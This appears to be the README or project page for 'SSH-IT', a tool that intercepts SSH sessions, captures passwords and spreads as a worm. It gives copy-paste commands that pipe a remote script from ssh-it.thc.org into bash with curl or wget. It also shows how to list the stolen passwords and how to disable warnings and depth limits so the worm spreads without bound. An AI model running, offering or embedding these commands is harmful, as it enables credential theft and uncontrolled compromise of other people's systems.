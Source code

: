 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```
~/.prng/thc_ctl -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```
~/.prng/thc_ctl -r uninstall
```

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` You will see a warning when *ssh* is being intercepted.
* ```THC_DEPTH=2``` The worm will stop spreading 2 hops from the host where it got deployed.

{:refdef: style="text-align: center;"}
![Verbose-Example](verbose-example.png)
{: refdef}

Take off all safety and run SSH-IT in release mode (*with no warnings*):
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

Or go bonkers and let the worm run until the Internet runs out of hosts to own:
```shell
THC_DEPTH=9999 THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


